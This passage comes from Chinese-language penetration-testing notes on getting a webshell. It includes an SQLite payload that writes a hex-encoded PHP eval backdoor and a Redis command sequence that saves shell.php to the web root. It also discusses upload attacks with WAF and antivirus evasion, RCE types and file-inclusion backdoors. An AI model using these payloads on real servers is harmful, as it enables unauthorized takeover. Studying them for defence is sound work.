        * sqlite3

         ```sql
         ;attach database 'D:\\www\\008.php' as tt;
         create TABLE tt.exp (dataz text) ;
         insert INTO tt.exp (dataz) VALUES (x'3c3f70687020406576616c28245f504f53545b27636d64275d293b3f3e');
         ```

       * redis

         ```
         %0D%0Aconfig%20set%20dir%20%2Fvar%2Fwww%2Fhtml2F%0D%0Aconfig%20set%20dbfilename%20shell%2Ephp%0D%0Aset%20x%2022%3C%3Fphp%20phpinfo%28%29%3B%%203F%3E%22%0D%0Asave%0D%0A
         ```

2. **上传getshell**


可以通过前后台进行上传，但无论是通过前台上传还是通过后台(通过口令进入或XSS到后台、逻辑漏洞越权等)上传点，在某些情况下可能需要结合一些Web server的解析漏洞。上传漏洞能够直接getshell的漏洞，例如Joomla远程上传、Tomcat PUT上传，同时也有存在上传漏洞的编辑器可以getshell，例如FCK，Ewebeditor，UEditor。在这基础上，一般是由收集的信息反馈是否存在漏洞，再进一步达到利用的目的。而在这个过程中可能会涉及**逻辑绕过、WAF对抗、杀软绕过、执行层**，所要关注的有以下四点：

* 代码或逻辑存在问题，可以上传脚本文件；
* 躲过WAF对脚本文件以及对上传内容的校验；
* 解决落地杀;
* 执行过程中躲过流量监控或系统层监控

同时我们也可以考虑在上传插件情况将shell添加到安装的插件中上传服务器获得shell。

3. **RCE getshell**

   * **概念**

     RCE(*remote command/code execute*),即远程命令/代码执行漏洞，可以分为**远程命令执行ping**和**远程代码执行evel**。攻击者可以通过web界面直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统，这就是RCE漏洞。

   * **实例**

     Java系的OGNL表达式注入、EL注入、反序列化；

     PHP系列的eval类、伪协议类代码执行、system类命令执行等；

     例如在2021年12月10日爆发的高危log4j漏洞，对该漏洞利用复现如下漏洞利用实践部分。

4. **文件包含getwebshell**

   * **概念**

   文件包含，常见JSP、ASP、ASPx、PHP 都有包含。就**PHP的包含**而言，可以包含任意路径的任意后缀，能控制include类函数的输入结合系统特征性文件或者上传的文件结合，可以获取webshell。**JSP包含**，默认情况下动态包含WEB路径下的JSP文件（静态包含可以包含任意后缀的文本文件，但不支持变量动态赋值），可以留后门使用。**ASPx包含**，目录任意文件可以被包含，可以把内容当做ASPx代码执行，但不支持动态变量赋值，类似于JSP静态包含，也可以留后门使用。借助文件包含可躲避waf拦截获取webshell，一般用于上传大马。

   * **常见文件包含的函数**

     * PHP：include() 、include_once()、require()、require_once()、fopen()、readfile()

     * JSP/Servlet：java.io.file()、java.io.filereader()、静动态include

     * ASP：include file、include virtual

   * **格式**

